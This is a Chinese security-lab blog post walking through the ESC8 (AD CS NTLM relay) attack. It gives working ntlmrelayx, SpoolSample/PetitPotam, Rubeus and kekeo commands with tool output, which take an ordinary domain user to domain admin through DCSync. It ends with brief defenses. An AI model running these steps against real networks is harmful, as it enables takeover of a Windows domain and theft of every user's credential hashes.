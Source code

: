 ##  从证书服务到域管

原创 执念于心  [ 水滴安全实验室 ](javascript:void\(0\);)

**水滴安全实验室** ![]()

微信号 EversecLab

功能介绍 水滴安全实验室－互联网安全资讯订阅号

____

__

收录于话题

## 概述

最近一篇有关于域中证书服务攻击面的文章在国外安全圈中流行开来，其中威胁比较大的就当属  
ESC8 也被叫做ADCS Relay  
attack，就连mimikatz的作者也在twitter上发布了漏洞演示视频，本文将讲解并演示如何利用该漏洞，在一个默认安装了证书web服务的域环境中，使用普通用户凭据，直接获取到域管权限。

## 攻击流程

  1. 使用打印机bug，让域控使用机器用户身份发起ntlm请求。

  2. 使用ntlmrelay，将域控的请求relay到证书服务的web端点，从而通过验证并获得域机器身份。

  3. 通过证书模板DomainController，给该机器用户申请一个证书。

  4. 利用该证书与域进行认证，从而可以持久性获取到该机器用户的权限，也就是域控的机器用户权限。

## 利用流程

### 查找证书web服务端点

在域中定位ca服务器的办法比较多，最简单的可以使用certutil命令：

    
    
    certutil -config - -ping

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806175820.png)

就获取到了证书服务器的内网地址：

    
    
    http://win-pj6elfeg09p.test.local/certsrv/certfnsh.asp  
    

### 设置监听

首先使用impacket的ntlmrelayx.py  
进行监听，需要使用最新的impacket，安装如下：

    
    
    git clone https://github.com/SecureAuthCorp/impacket ./impacket  
    cd impacket  
    git fetch origin pull/1101/head:ntlmrelayx-adcs-attack  
    git checkout ntlmrelayx-adcs-attack  
    python3 setup.py install  
    cd examples  
    python3 ntlmrelayx.py -t http://my.victim.host/certsrv/certfnsh.asp -smb2support --adcs  
    

然后使用ntlmrelayx 设置好relay目标，并监听：

    
    
    ntlmrelayx.py -debug -smb2support --target http://win-pj6elfeg09p.test.local/certsrv/certfnsh.asp --adcs --template DomainController  
    

### 打印机bug

然后我们需要使用到打印机bug，让域控回连到我们监听的服务上，使用spoolsample或者petitpotam都可以，当然如果我们有域账号，也可以使用printbug.py
或者 mimikatz的misc::spooler：

    
    
    SpoolSample.exe dcip attackip

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806175822.png)

  

    
    
    petitpotam.exe attackip dcip

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806175823.png)

然后我们就收到了请求:  

    
    
    [*] Generating CSR...  
    [*] CSR generated!  
    [*] Getting certificate...  
    [*] GOT CERTIFICATE!  
    [*] Base64 certificate of user SDC$:  
    MIIRhQIBAzCCEU8GCSqGSIb3DQEHA....2dmQ==  
    

### 获取域管

有了这个证书之后，可以直接使用kekeo或者rubeus，申请tgt，从而能够dcsync

    
    
    kekeo:  
    base64 /input:on  
    tgt::ask /pfx:xxx /user:sdc$ /domain:test.local /ptt  
      
    rubeus:  
    Rubeus.exe asktgt /user:SDC$ /certificate:xxx /domain:test.local /dc:192.168.239.147 /ptt  
    ServiceName           :  krbtgt/test.local  
      ServiceRealm          :  TEST.LOCAL  
      UserName              :  SDC$  
      UserRealm             :  TEST.LOCAL  
      StartTime             :  2021/8/5 17:16:26  
      EndTime               :  2021/8/6 3:16:26  
      RenewTill             :  2021/8/12 17:16:26  
      Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable  
      KeyType               :  rc4_hmac  
      Base64(key)           :  BPE8UFgtl1X3o8XjYazkWQ==  
    

导入成功之后，就可以直接dcsync，从而获取到所有域用户的hash，从而获取了域管理权限：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806175824.png)

## 漏洞演示

## 检测和防御

  1. 如果不需要，可以关闭证书服务的web端点。

  2. 可以将我们relay到的web端点  
`certsrv`，该iis配置中的ntlm认证删除，这样就无法使用ntlm进行认证，也就封堵了relay攻击。

## 参考

  * Certified Pre-Owned`2021年6月17发布`

  * AD CS relay attack - practical guide`2021年6月23发布`

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

从证书服务到域管

最多200字，当前共字

__

发送中

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

